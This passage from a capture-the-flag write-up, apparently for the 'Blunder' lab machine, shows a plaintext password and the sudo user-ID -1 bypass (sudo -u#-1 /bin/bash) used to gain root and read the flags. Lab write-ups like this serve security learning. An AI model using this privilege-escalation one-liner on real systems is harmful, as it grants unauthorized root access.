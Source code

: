 ```
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat /home/hugo/user.txt
<10.0a/bl-content/databases$ cat /home/hugo/user.txt       
<removed>
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ 
```

And we get the user flag!

## Priv Escalation

Alright, now let's see what kinds of permissions Hugo has. 

```
der:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ 
```

A quick google search leads me to this page: https://www.exploit-db.com/exploits/47502

Let's try this out then!

```
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash
<-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash       
root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# 
```

... that was easy. Now let's find the root flag..

```
root@blunder:/# cd /root/
root@blunder:/root# ls
root.txt
root@blunder:/root# cat root.txt
<omitted>
```

And the box is solved!

## Conclusion

I really did get lucky when it came to finding things on Google when I found them. If I overlooked some things or scrolled past the initial results too quickly, this box would have taken several more hours to get through. This was the first time I used Metasploit so figuring that out was cool, and this is the first time I was able to get the root flag on a box which is even better. In the future, I sort of have a better idea of what methodology I should be using, including upgrading some of the tools that I have been using, so hopefully I can solve things a little bit faster in the future.














